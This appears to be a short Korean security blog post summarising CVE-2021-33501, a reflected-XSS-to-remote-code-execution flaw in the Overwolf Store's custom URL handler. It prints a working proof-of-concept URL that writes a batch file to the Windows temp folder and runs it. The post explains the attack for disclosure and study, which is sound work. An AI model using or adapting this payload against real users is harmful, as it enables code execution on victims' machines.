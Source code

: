 ```yaml
---

title: "[하루한줄] CVE-2021-33501: Overwolf 1-Click Remote Code Execution"
author: Fabu1ous
tags: [Fabu1ous, rce, sandbox escape, cve, xss]
categories: [1day1line]
date: 2021-06-02 14:00:00
cc: true
index_img: /img/1day1line.png

---
```




## URL

[Overwolf 1-Click Remote Code Execution](https://swordbytes.com/blog/security-advisory-overwolf-1-click-remote-code-execution-cve-2021-33501/)



## **Target**

Overwolf Client 0.169.0.22



## **Explain**

Overwolf는 PC 게임을 위한 확장 프로그램의 개발 프래임워크를 제공하고 유통하는 플랫폼입니다. Overwolf Store의 URL handler에 Reflected Cross-Site Scripting(XSS)을 이용한 원격 코드 실행 취약점이 발견되었습니다. 

```url
overwolfstore://app/apps/<img src=x onerror=alert(document.location)>/4
```

`overwolfstore://` Custum Scheme를 사용하면 웹브라우저를 통해 OverwolfAppstore.exe 프로세스를 실행할 수 있습니다. URL의 category에 해당하는 부분이 오류 메세지의 일부로 responce body에 reflect 되며 Overwolf Store UI의 DOM에 reflect 되므로 XSS 공격이 가능합니다.

```url
overwolfstore://app/apps/<img+src=x+onerror=%22overwolf.io.writeFileContents('C:\\windows\\temp\\d.bat','start%20cmd%20%252fk%20whoami','',false,console.log)%2526overwolf.utils.openUrlInDefaultBrowser('C:\\windows\\temp\\d.bat')%22>/CCCCCC
```

위는 PoC 코드로 다음과 같은 작업을 합니다.

1. 누군가 악성 URL에 접속하면 Overwolf Store 응용프로그램이 실행되고 XSS 취약점 트리거.
2. `C:\windows\temp\` 폴더에 악성 batch 파일 생성.
3. batch 파일 실행